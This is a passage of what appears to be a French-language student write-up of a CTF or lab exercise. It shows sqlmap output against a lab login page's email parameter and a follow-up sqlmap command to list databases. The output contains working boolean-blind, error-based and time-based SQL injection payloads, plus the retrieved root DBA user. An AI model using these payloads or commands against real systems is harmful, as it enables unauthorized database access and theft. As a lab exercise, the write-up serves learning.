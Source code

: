 ```bash
[2] Medium
[3] Hard
> 3
Enumeration (--banner/--current-user/etc). Please choose:
[1] Basic (default)
[2] Intermediate
[3] All
> 1

sqlmap is running, please wait..

sqlmap identified the following injection point(s) with a total of 1107 HTTP(s) requests:
---
Parameter: email (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=test' AND 9749=(SELECT (CASE WHEN (9749=9749) THEN 9749 ELSE (SELECT 8209 UNION SELECT 3577) END))-- irFf&password=my_password

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 2937 FROM(SELECT COUNT(*),CONCAT(0x717a786a71,(SELECT (ELT(2937=2937,1))),0x716b707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jUhZ&password=my_password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 3712 FROM (SELECT(SLEEP(5)))BwqO)-- usqD&password=my_password
---
[14:30:09] [INFO] retrieved: '10.4.24-MariaDB'
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
banner: '10.4.24-MariaDB'
[14:30:10] [INFO] retrieved: 'root@localhost'
current user: 'root@localhost'
[14:30:10] [INFO] retrieved: 'ai'
current database: 'ai'
current user is DBA: True

[*] ending @ 14:30:10 /2025-10-25/
```

Et ensuite j'ai simplement utilisé ces failles pour voir la base de donnée avec le `--dbs` et le `--level=5` qu'on nous avait dit de mettre.

```bash
root@ip-10-10-90-184:~# sqlmap -u "http://10.10.111.207/ai/includes/user_login?email=test&password=my_password"   --level=5 --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:38:32 /2025-10-25/

[14:38:32] [INFO] resuming back-end DBMS 'mysql' 
[14:38:32] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
```